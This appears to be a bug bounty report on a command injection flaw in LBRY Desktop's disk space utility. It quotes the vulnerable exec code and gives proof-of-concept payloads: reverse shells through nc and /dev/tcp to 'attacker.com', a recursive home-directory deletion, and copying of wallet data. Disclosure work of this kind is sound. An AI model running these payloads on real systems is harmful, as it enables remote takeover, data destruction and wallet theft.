 # LBRY Desktop Bug Bounty Submission

## 1. Title
**"Command injection in disk space utility leads to arbitrary code execution"**

## 2. Description

### Brief/Intro
The LBRY Desktop application contains a critical command injection vulnerability in its disk space checking utility (`ui/util/diskspace.js`). User-controlled path parameters are directly concatenated into shell commands without proper sanitization, allowing attackers to execute arbitrary system commands and achieve complete system compromise.

### Vulnerability Details
The `diskSpaceLinux()` and `diskSpaceMac()` functions directly concatenate user input into shell commands:

```javascript
// ui/util/diskspace.js - Line 4-6
export const diskSpaceLinux = (path) => {
  return new Promise((resolve, reject) => {
    exec(`df ${path}`, (error, stdout, stderr) => {  // VULNERABLE: Direct path injection
```

The `diskSpaceMac()` function attempts to escape spaces but ignores other dangerous shell metacharacters:

```javascript
// ui/util/diskspace.js - Line 25-27
export const diskSpaceMac = (path) => {
  const escapedPath = path.replace(/(\s+)/g, '\\$1');  // INSUFFICIENT: Only escapes spaces
  return diskSpaceLinux(escapedPath);  // VULNERABLE: Still vulnerable to command injection
```

**Attack Vectors:**
- Path parameter injection with shell metacharacters (`;`, `&`, `|`, `>`, `<`, `$()`, `` ` ``)
- Insufficient input validation and sanitization
- Direct command execution via Node.js `exec()` function

### Impact Details
**Critical Impact:**
- **Arbitrary Code Execution:** Attackers can execute any system command
- **Complete System Compromise:** Full access to user's system and files
- **Data Theft:** Access to sensitive LBRY wallet data (`~/.lbryum/`)
- **Privilege Escalation:** Potential elevation to system privileges
- **Malware Installation:** Ability to install persistent malware

**Attack Scenarios:**
1. **Simple Command Injection:** `/tmp; rm -rf /home/user; echo 'hacked'`
2. **Reverse Shell:** `/tmp; nc -e /bin/sh attacker.com 4444`
3. **Wallet Theft:** `/tmp; cp -r ~/.lbryum /tmp/stolen; echo 'stolen'`

### References
- [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [Node.js Security Best Practices](https://nodejs.org/en/docs/guides/security/)
- [LBRY Desktop GitHub](https://github.com/lbryio/lbry-desktop)

## 3. Proof of Concept

```javascript
// SPDX-License-Identifier: MIT
const { diskSpaceLinux, diskSpaceMac } = require('./ui/util/diskspace.js');

// PoC 1: Command Injection via Path Parameter
const maliciousPath = "/tmp; echo 'VULNERABLE' > /tmp/poc.txt; echo 'hacked'";

// This will execute: df /tmp; echo 'VULNERABLE' > /tmp/poc.txt; echo 'hacked'
diskSpaceLinux(maliciousPath)
  .then(result => console.log('Disk space:', result))
  .catch(error => console.log('Error:', error));

// PoC 2: Reverse Shell Attack
const reverseShellPath = "/tmp; bash -c 'bash -i >& /dev/tcp/attacker.com/4444 0>&1'";

diskSpaceLinux(reverseShellPath)
  .then(() => console.log('Reverse shell executed'))
  .catch(error => console.log('Error:', error));

// PoC 3: Wallet Data Theft
const stealWalletPath = "/tmp; cp -r ~/.lbryum /tmp/stolen_wallet; echo 'wallet_stolen'";

diskSpaceLinux(stealWalletPath)
  .then(() => console.log('Wallet data stolen'))
  .catch(error => console.log('Error:', error));
```

**Steps to reproduce:**
1. Deploy vulnerable version of LBRY Desktop
2. Execute PoC 1 to create test file: `echo 'VULNERABLE' > /tmp/poc.txt`
3. Execute PoC 2 to establish reverse shell (in controlled environment)
4. Execute PoC 3 to steal wallet data
5. Verify command execution by checking for created files/processes

## 4. Attachments
Attach: `LBRY_DESKTOP_CRITICAL_VULNERABILITY.md` from `/home/vega/projects/critical-research/`

---

**Note:** This vulnerability represents a critical security flaw that could lead to complete system compromise. The attack can be triggered through any code path that calls the disk space utility with user-controlled path parameters. 